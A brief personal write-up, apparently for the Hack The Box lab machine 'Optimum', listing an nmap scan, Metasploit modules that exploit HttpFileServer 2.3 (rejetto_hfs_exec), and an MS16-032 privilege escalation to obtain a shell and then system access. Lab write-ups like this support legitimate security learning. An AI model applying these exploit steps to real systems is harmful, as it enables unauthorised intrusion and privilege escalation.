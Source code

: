 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Optimum
# 17/3/2023
10.10.10.8

----------------------------------------------------
# nmap
----------------------------------------------------
PORT   STATE SERVICE version
80/tcp open  http    HttpFileServer httpd 2.3

----------------------------------------------------
# exploitation
----------------------------------------------------
msfconsole
msf6 > searxh rejetto
use windows/http/rejetto_hfs_exec
set options
run
got a shell

----------------------------------------------------
# priv esc
----------------------------------------------------
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 3
Meterpreter     : x86/windows

use ms16_032_secondary_logon_handle_privesc
set options run got a root